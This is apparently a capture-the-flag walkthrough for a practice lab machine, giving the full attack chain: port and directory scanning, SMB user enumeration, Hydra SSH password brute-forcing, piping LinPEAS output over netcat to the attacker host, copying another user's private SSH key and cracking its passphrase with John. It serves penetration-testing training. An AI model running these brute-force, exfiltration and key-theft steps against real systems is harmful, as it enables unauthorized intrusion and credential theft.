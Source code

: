 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

Title: `Web App Test`

Target IP: `10.10.0.193`

Host IP: `10.10.14.20`

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

> - `22/tcp` OpenSSH
> - `80/tcp` Apache
> - `138/tcp` Samba
> - `445/tcp` Samba
> - `8009/tcp` Apache
> - `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> !-- Check our dev note section if you need to know what to work on. --

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> /development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> href="dev.txt"

> href="j.txt"

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> S-1-22-1-1000 Unix User\kay (Local User)

> S-1-22-1-1001 Unix User\jan (Local User)

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> [22][ssh] host: 10.10.0.193   login: jan   password: armando

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> ══╣ Possible private SSH keys were found!
> /home/kay/.ssh/id_rsa

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> beeswax (kay_id_rsa)

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```
